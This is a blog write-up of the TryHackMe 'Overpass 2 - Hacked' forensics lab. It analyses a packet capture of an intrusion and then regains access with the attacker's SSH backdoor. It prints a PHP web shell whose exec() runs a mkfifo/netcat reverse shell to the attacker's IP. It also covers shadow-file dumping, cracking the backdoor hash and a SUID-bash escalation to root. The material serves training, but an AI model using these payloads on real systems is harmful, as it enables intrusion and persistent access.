 ```yaml
---
title: "Overpass 2 - Hacked"
date: 2023-07-31 20:50:00 +0300
image: /assets/img/Posts/overpass2.png
categories: [Tryhackme, Easy]
tags: [Network forensics, wireshark, SUID, backdoor, ssh, pcap, packet capture]
---
```


| Room       | [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)    |
| ---------- | -------------------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)                       |
| Difficulty | Easy                                                                 |

# Let's get started
This room focuses on analyzing the packet capture file that was saved by the soc team after noticing suspicious traffic in their network. It is aimed to help the learner grow their skills in network forensics, one of the major categories of the digital forensics domain.

Forensics skills will be vital to help uncover the attack vector the attacker used, at which endpoint, the exploit used, status of the attack and the impact the attack had to the organization.

## Forensics - Analyse the PCAP
We are presented with the `PCAP file` that we believe captured the suspicious traffic as highlighted. It is our duty to analyse it to understand the attack. We are going to use wireshark to open and analyse the traffic. 
But first we need to check the integrity of the file. We are being provided with the MD5sum of the file, so we are going to reproduce the MD5Sum and compare to see if it is original, not modified.
>NOTE: It is part of forensics to always confirm the integrity of the files or data shared.
{: .prompt-info }
It is evident that the hash we got after generating the MD5Sum of the file looks similar to the hash provided in the TryHackMe platform.

![image](/assets/img/Posts/overpass2/md5sum.png)

We proceed to opening the file in wireshark to begin our analysis.

![image](/assets/img/Posts/overpass2/wireshark-1.png)

From the look of things from the above image, we see there are several `TCP` and `HTTP` requests.Checking through clearly we see a `GET` request made from host ip `192.168.170.145` on the `/development` directory on the server that is probably running on the host `192.128.170.159`.

![image](/assets/img/Posts/overpass2/wireshark.png)

>From the IPs of the Hosts captured we can conclude that the victim and the attacker were on the same network. 
Going forward we saw here there is also a `POST` request made on the directory `/development/upload.php`, we proceed to checking that particular packet. We do so by `right-clicking` then  `follow->HTTP stream`.

![image](/assets/img/Posts/overpass2/analysis-2.png)

Checking on the nature of the request, we see that the attacker uploaded uploaded a file payload.php  that had the contents:
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
From the file extension and the contents of the file, we can tell that the attacker did upload a `php` code the used `exec()` which can be used to execute the system commands. In this case the command  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f` spawns a reverse shell and forwards to the attacker IP provided in the payload `192.168.170.145` to the listening port that the attacker provided `4242`.

After making this `POST` request, the attacker proceeded to do a `GET` request which was meant to execute the `payload.php` file uploaded with an intention of getting a reverse connection from the victim machine.

![image](/assets/img/Posts/overpass2/analysis-3.png)

After GETting the `payload.php` file, we see some trailing `TCP` connection to the port `4242` which had earlier been specified on the payload, which signifies the reverse connection was successful.
We can confirm by following one of `TCP` packets.

![image](/assets/img/Posts/overpass2/analysis-4.png)

The attacker got a shell onto the server as the `www-data user`, executed the python command `python3 -c ‘import pty;pty.spawn(“/bin/bash”)’` to stabilize the shell.
Then switched the user using the command su james to change the user to james and provided the password which we can see is `whenevernoteartinstant`.
From here we see the attacker proceeded to run the command `sudo -l` to list the commands or binaries that the user james can run with sudo. We find that the attacker can run `ALL` the commands in the server using the user james (BAD PRACTICE).
`(ALL : ALL) ALL`
After seeing that the attacker directly went to dump the user password hashes from the /etc/shadow file.

![image](/assets/img/Posts/overpass2/analysis-pass.png)

## Research - Analyse the code 
Then goes on to cloning the SSH backdoor onto the server obviously to maintain their stay on the server, technically we say persistence:).

![image](/assets/img/Posts/overpass2/analysis-clone.png)

We can try to access the GitHub repository the attacker cloned (SSH backdoor) from the url https://github.com/NinjaJc01/ssh-backdoor. The payload is written in `go` language.

![image](/assets/img/Posts/overpass2/analysis-github-repo.png)

Checking through the main function of the `main.go` file, we find a clue of what the code is doing. The backdoor tends to open the port `2222` for ssh connection to the attackers machine. then we see a default hash at the top and the different arguments that the attacker could use to deploy the backdoor.

![image](/assets/img/Posts/overpass2/analysis-codereview.png)

Going down the code we find there is a hardcoded string of what looks like a salt on the hash of the hash the attacker provides.

![image](/assets/img/Posts/overpass2/analysis-salt.png)

Going back to the packet capture analysis, we find that the attacker ran the backdoor with the arguments -a which as we have seen helps him enter his own password hash.
attacker hash from the pcap file: 
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
![image](/assets/img/Posts/overpass2/analysis-salt-attacker.png)\

With the hash and the salt we can proceed to crack them using `hashcat` to see the password the attacker set in his backdoor.

![image](/assets/img/Posts/overpass2/pass.png)

## Attack - Get back in! 
Now that we have the SSH credentials of the attacker backdoor, we can try to log into the server.
`SSH port - 2222`
Trying to login we get this error.

![image](/assets/img/Posts/overpass2/ssh-issue.png)

On a quick google search we get a solution to the problem. we add `-o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa` to our ssh command and we get a shell.

![image](/assets/img/Posts/overpass2/ssh-issue-solver.png)

![image](/assets/img/Posts/overpass2/shell.png)

we access the user flag in `james’s home` directory.

![image](/assets/img/Posts/overpass2/userflag.png)

Re-running the `sudo -l` command, on the server since we saw before on the captured traffic that james could run `ALL` the commands with sudo. It seems it is not the case anymore.
Running a `ls -la` command on james’s home directory, we find  a file `.suid_bash` with a `SUID bit`, running it with `-p` gives us the root shell.

![image](/assets/img/Posts/overpass2/suid-blog.png)

![image](/assets/img/Posts/overpass2/rootflag.png)

Enjoy :)